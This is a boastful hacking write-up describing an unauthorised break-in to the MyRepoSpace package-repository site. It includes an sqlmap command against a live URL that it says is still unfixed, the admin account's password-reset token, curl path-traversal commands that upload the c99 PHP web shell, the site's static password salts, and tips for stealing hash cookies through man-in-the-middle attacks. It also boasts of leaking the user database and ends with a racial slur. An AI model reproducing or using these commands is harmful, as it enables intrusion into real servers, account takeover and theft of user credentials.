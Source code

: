 #How We Hacked MyRepoSpace
For this write-up, I'm going to only cover _how_ we were able to gain access to the MRS server, and not the reasons for us doing so.

###How it started
The first bug we used on MRS was a blind SQL injection, found by Ben. This let us access all information stored in the websites databases, but being a blind injection, retrieving anything was very slow. We inadvertently DOS'd the site doing this, bringing it down a few times... Oops.

The URL vulnerable to the injection is: 
```
http://myrepospace.com/register/check1.php?nick=1
```

Using SQLMap, we could gain a SQL shell with:
```
./sqlmap.py -u "http://myrepospace.com/register/check1.php?nick=1" --sql-shell
```

**This has not been fixed**

Using this injection, Ben started snooping through the database contents and  discovered something interesting. Located in the `users` database was a column called `forgetToken`. Investigating further, it was revealed that this token was a randomly generated string, 32 characters long, used for password resets. And it was stored in plain text. 
When you combine this token with the users `id`, you can then do something like this:
```
https://www.myrepospace.com/login/forgot.php?id=215086&v=93bfb5d60cd3778ec5558e29dc3e8c09
```

And you would be greeted with this:

![Password reset page](http://i.imgur.com/tlt5kVI.png)

We could change any users password, access any account that we wanted. The admin account for the site was user id `1`, and with a forgetToken of `0efd8bb79347ada32d249d5f77e6149c`.

###What next?
So this is fun, we could access any account on the site, including the admin's account - but we wanted more. So I went searching. 

One of MRS's 'tools' is iDeb - a part of the site that allows you to upload a zip file, and it converts it into a deb file. This is very handy, but unfortunately it was written very poorly. 

It worked by moving the uploaded zipped file to a temporary directory, unzipping the contents, and then running the `ar` command on the unpacked files to create the debian package. The temporary directory would look something like `http://www.myrepospace.com/iDeb/temp/July/5599b6ff99dba/`, and was completely accessible to us. **This is bad**.

So after figuring out how the iDeb system worked, I simply took a popular php shell, c99.php, zipped it, and uploaded it to be packaged as a deb. Once uploaded, I navigated to the newly created temp directory for the upload, and sure enough `c99.php` was the first file listed. We now had full access to the server, including access to the mysql database. [Discovered by Ethan]

![MySQL database on MRS](http://i.imgur.com/5pihv7Z.png)

###Admin's fix part 1
The first fix the owner of the site did was moving the temporary directory files were unpacked in to a place we couldn't access - `~/tmp`, the full path being something like `~/tmp/iDeb/July/5599b6ff99dba/zip_contents_here`. You'll notice that random string - this is called a UID and is randomly generated **client side** and sent to the server when you upload a zip file. On the server, iDeb runs this code, creating the directory with the UID:

```
$uID = $_POST['UPLOAD_IDENTIFIER'];
$tmp = "/home/myreposp/tmp/iDeb";
$to = "$tmp/$month/$uID/";

if(!File_exists($to)){
	mkdir($to, 0755, true);
}
```
In order to access our uploaded files (the php shell), we need to have them uploaded to a place accessible to us - specifically `/home/myreposp/public_HTML`. Since the `UID` is created client side, we can manually specify it - and since the site doesn't perform any type of checks on the `UID` its sent, we can do some dirty things using curl and path traversal.

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html" -F "upload=@c99.zip" http://www.myrepospace.com/iDeb/upload.php
```

This would unpack our zipped file's contents to the root directory of the website... and we were back in. [Discovered by Ben]

###Admins's fix part 2 
The next thing the site owner did was make the `public_html` directory `root` owned - meaning we couldn't write any files to it. This was actually a pretty clever move, but was executed fairly bad. He forgot to make any subdirectories root owned. `~/public_html/` was off limits, but `~/public_html/vip` wasn't. 

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html/vip" -F "upload=@c99.zip" http://www.myrepospace.com/iDeb/upload.php
```

We were back in. [Discovered by Ethan]

###Admin's fix part 3
After this breach, the tool was modified to delete the unpacked files after the deb was created. It would take the zip file, unpack it, use `ar` to make the deb, and then delete everything except for the new deb, and the original zip (both of which were useless to us). 

Ok, no problemo! We'll just stop uploading zip files, and start uploading our php shell directly, since the only file type check was done client side through ajax. 

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html/vip" -F "upload=@c99.php" http://www.myrepospace.com/iDeb/upload.php
```

And once again, we were in. [Discovered by Andy]

###Admin's fix part 4
So the admin caught on to us uploaded php files, and added a regex check in `upload.php` to ensure no non-zips were uploaded. When we tried to upload our php shell, it returned a scary error telling us we were uploading an invalid file. Awh! But no worries... even though it threw an error at us, it still uploaded our file as usual. Nice job admin!

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html/vip" -F "upload=@c99.php" http://www.myrepospace.com/iDeb/upload.php
```

Ignoring scary errors, we were still in. [Discovered by Andy]

##¯\\\_(&#12484;)_/¯
That's about it, after the last breach the iDeb tool was properly fixed, and our method of getting in was broken. But have no fear, we released the source code to the site, which will reveal that it is littered with bugs and sql injections! All of these 'hacks' were achieved through exploiting a single file, who knows how many other files are as vulnerable as this one was.

~herpes

###About passwords
Passwords were initially **unsalted md5**, until the 2nd of February when the admin switched to... md5 with a static salt. "MRS-WINS", prepended to the password, in case you were wondering. The admin was [quite proud of this](https://twitter.com/myRepoSpace/status/562613742794706944). He kindly left the old passwords in the database for people who hadn't yet changed theirs. We were able to recover about 5000 through rainbow tables and basic dictionary attacks on a recent mid-range CPU in a few hours alone (for research purposes only - but honestly, us telling you we did this is better than someone else secretly using it for evil).

Password resets always use the same static hash (again, an md5 of the password and the unix time of registration tacked on) and so to get into someone's account you can just grab that and paste it into the password reset url. I don't think these ever got re-generated so if someone got a hold of it, you'd be pretty screwed.

After we leaked the user database, the admin changed the hashing to... md5 with a static salt. Now it's "MRS-WINS-AGAIN" - yeah um, nice try but not quite. Apparently the fact that md5 has long been considered obsolete, flawed, and very fast to brute-force on modern hardware, in combination with the fact that a static salt does very little to help, isn't enough to make him spend a moment googling to find how passwords *should* be stored. Grab an md5 from the dump and spend some time learning how to log in without knowing the password by using a colliding hash - go on, I'll wait.

Oh well. It doesn't even matter any more, anyway, because he now kindly sends you a copy of your password hash as a cookie. 

```php
setcookie("gxli","2g".base64_encode("$_SESSION[userID]-$md5pass"),$time+58060800, '/', '.myrepospace.com',false,true);
```

So if you'd like to have a crack at bruteforcing someone's password, just MitM them to grab their cookies (not all of MyRepoSpace enforces HTTPS - oh, and we have their SSL key anyway). Or, change your own user ID, since it's used for the admin's logging. Last we saw this was one of the few places left that allows for an SQLi too. Child's play, really.

You might not think it's a big deal for a not so sensitive site like MyRepoSpace but any time passwords (hashed or not) are leaked, you can guarantee that many people would have used the same password on other sites that may very well be sensitive. There's also the thing of uploading evil packages on otherwise trustable people's repos.

Even if the MyRepoSpace admin claims everything is fixed, it's not. Don't waste your time, go make a repo on GitHub or something.

~ Andy

Fuck bein' on some chill shit. We go 0 to 100 nigga, real quick.

~

